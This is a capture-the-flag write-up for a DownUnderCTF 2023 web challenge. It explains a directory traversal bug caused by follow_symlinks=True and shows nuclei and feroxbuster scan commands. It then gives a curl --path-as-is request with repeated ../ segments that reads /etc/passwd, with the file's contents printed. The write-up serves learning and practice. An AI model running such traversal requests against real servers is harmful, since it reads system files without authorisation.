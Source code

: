 ## static file server

#### Info

Here's a simple Python app that lets you view some files on the server.

Author: joseph

[https://web-static-file-server-9af22c2b5640.2023.ductf.dev](https://web-static-file-server-9af22c2b5640.2023.ductf.dev/)
#### Solve

##### Source Code Analyze

> [!NOTE] 
> `follow_symlinks=True` will make it vulnerable to **directory traversal**
> > app.py
> ![](attachment/a55d24d0756d85c6869319ba9d02bf81.png)
##### Fuzzing and Scanning

- Nuclei

```bash
nuclei -u https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/
```

![](attachment/276a84f1c4354ca01ca13e9ecc4aeb9e.png)

- Fuzz directory traversal

```bash
feroxbuster -t 150 -u https://web-static-file-server-9af22c2b5640.2023.ductf.dev/ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
```

![](attachment/1130c4dd8ce3acc96ab1e97d6c765d3f.png)
##### Exploit directory traversal

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ductf]
└─$ curl --path-as-is 'https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/../../../../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```
